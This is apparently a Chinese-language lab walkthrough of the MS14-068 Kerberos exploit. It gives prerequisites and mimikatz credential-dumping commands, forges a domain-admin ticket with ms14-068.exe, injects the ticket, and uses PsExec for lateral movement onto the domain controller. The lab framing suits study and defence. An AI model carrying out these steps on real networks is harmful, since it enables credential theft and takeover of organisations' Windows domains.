








# MS14-068

1、获取域普通用户的账号密码
2、获取域普通用户的sid
3、服务器未打KB3011780补丁
4、域控服务器的IP

## 查看域控是否打ms14-068漏洞补丁


## 查看域内SID

在win7上查看域SID



在渗透的过程中也可以用mimikatz的logonpassword抓取（不过mimikatz需要高权限）

## 删除系统原有票据

为了排除其他票据的影响，我们来先看看有没有哪些票据，然后先删除掉



删除已有的票据 klist purge



为了模拟渗透的环境，后续的操作用mimikatz等工具来完成，先向win7上次mimikatz.exe

当提权到Administrator后就可以抓取密码了

```
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```



这里抓到了域SID，因为用的win server2012甚至还可以抓到明文密码，但是这里不是我们的关注点，我们想要的是域用户SID



```
S-1-5-21-3014572423-1275547571-3261963242-500	域控的

S-1-5-21-3014572423-1275547571-3261963242-1106	域用户test的

```

域控的IP可以用ipconfig/all查看

## 生成票据

```
ms14-068.exe -u 域成员名@域名 -s sid -d 域控制器地址 -p 域成员密码
```



可以看到生成了票据`TGT_test@town.domain.ccache`

## 导入票据

在导入票据之前先访问一下DC



接下来用mimikatz导入票据，将票据导入内存（这里不需要高权限）

```
kerberos::ptc TGT_test@town.domain.ccache
```



最后就可以通过`dir \\主机名\C$`来查看DC上的C盘内容

然后用wmiexec，psexec横向

```
.\PsExec.exe -accepteula \\10.1.1.2 -s cmd.exe
```

这里可能是我版本的问题没有打通


参考链接:

https://teamssix.com/210924-100520.html